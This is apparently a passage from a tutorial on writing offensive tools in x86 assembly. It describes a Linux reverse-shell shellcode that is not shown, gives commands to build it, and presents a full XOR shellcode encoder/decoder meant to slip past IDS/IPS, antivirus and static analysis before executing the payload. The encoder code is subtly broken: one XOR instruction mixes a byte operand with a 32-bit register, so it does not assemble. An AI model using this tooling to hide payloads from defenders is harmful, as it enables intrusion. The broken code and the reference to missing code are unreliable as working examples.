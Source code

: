 This assembly code represents a Linux/x86 reverse shell shellcode. When executed, it will establish a TCP connection to a specified IP address and port, and then spawn a shell. This shellcode can be injected into vulnerable programs or used in exploit development.

To assemble this code into an executable shellcode binary, you can use the following commands:

```bash
nasm -f elf32 reverse_shell.asm -o reverse_shell.o
ld -m elf_i386 reverse_shell.o -o reverse_shell
```

After assembling and linking, you'll have an executable binary named `reverse_shell`, which contains the reverse shell shellcode. You can inject this shellcode into vulnerable programs or use it in exploit development.

Keep in mind that creating cybersecurity tools in assembly language requires deep understanding of both assembly language and the underlying operating system's system calls and memory layout. It's often more practical to use higher-level programming languages like C or Python for developing most cybersecurity tools, as they provide better portability, maintainability, and readability. However, understanding assembly language and being able to write shellcodes and exploits can be valuable skills for penetration testing and exploit development.

Let's continue exploring how to create cybersecurity tools in assembly language. One common type of tool is a shellcode encoder/decoder. Shellcode encoding is used to obfuscate shellcode to bypass security mechanisms like IDS/IPS, antivirus software, and static code analysis. Here's a basic example of an XOR encoder/decoder written in x86 assembly:

```assembly
section .data
    shellcode db 0x90, 0xcc, 0x90, 0xcc, 0x90, 0xcc  ; Sample shellcode to encode/decode
    shellcode_len equ $ - shellcode

section .text
    global _start

_start:
    ; Encoding shellcode using XOR with a key
    mov esi, shellcode     ; Load address of shellcode into esi
    mov ecx, shellcode_len ; Load length of shellcode into ecx
    mov ebx, 0x55          ; Set XOR key (can be any value)
.encode_loop:
    xor byte [esi], ebx    ; XOR each byte of shellcode with the key
    inc esi                ; Move to the next byte
    loop .encode_loop      ; Repeat until all bytes are encoded

    ; Decoding shellcode using XOR with the same key
    mov esi, shellcode     ; Load address of shellcode into esi
    mov ecx, shellcode_len ; Load length of shellcode into ecx
    mov ebx, 0x55          ; Set XOR key (must be the same as used for encoding)
.decode_loop:
    xor byte [esi], ebx    ; XOR each byte of shellcode with the key
    inc esi                ; Move to the next byte
    loop .decode_loop      ; Repeat until all bytes are decoded

    ; Execute the decoded shellcode
    call shellcode         ; Call the decoded shellcode

    ; Exit the program
    mov eax, 1             ; Syscall number for sys_exit
    xor ebx, ebx           ; Return status (0)
    int 0x80               ; Call kernel
```
